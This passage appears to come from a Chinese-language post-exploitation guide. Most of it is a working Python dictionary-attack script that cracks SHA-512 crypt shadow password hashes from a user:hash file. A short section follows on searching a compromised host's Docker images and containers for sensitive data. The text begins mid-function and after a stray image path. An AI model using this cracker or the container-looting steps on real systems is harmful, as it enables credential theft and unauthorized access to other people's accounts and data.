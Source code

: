 ```python
        return "$6${}${}".format(salt.decode("utf-8"),output)

def testPass(cryptPass):
    salt,shadowPass=cryptPass.split('$')[2],cryptPass.split('$')[3]
    dictFile=open('dictionary.txt','r')
    for word in dictFile.readlines():
        word=word.strip()
        # print(word)
        tempPassWord=sha512crypt(bytes(word, encoding = "utf8"), bytes(salt, encoding = "utf8"), 5000)
        # print("temppassword is {}".format(tempPassWord))
        # print("shadowpassword is {}".format(shadowPass))
        if cryptPass==tempPassWord:
            print("[+] Found Password {}".format(word))
            return
    print("[-] Password Not Found ")
    return


def main():
    passFile=open('passwords.txt')
    for line in passFile.readlines():
        if ":" in line:
            user=line.split(':')[0]
            cryptPass=line.split(':')[1].strip(' ')
            print("[*] Now cracking Password For :{}".format(user))

            testPass(cryptPass)

if __name__ == "__main__":
    #  与crypt.crypt("123456","$6$123456") 运算结果一致
    # print(sha512crypt(b"123",b"DhlRUwqV",5000))
    main()
```

## 5 docker挖掘

查看系统内有无docker镜像或已启动的docker容器。

```shell
docker images
docker ps
```

如果有可以打开docker，翻阅内部有无敏感数据。具体拉起docker的命令可能不同镜像有差别，可以参考历史记录内的docker相关操作。

```shell
#启动
docker run -it ****
#进入
docker exec -it **** /bin/bash
```
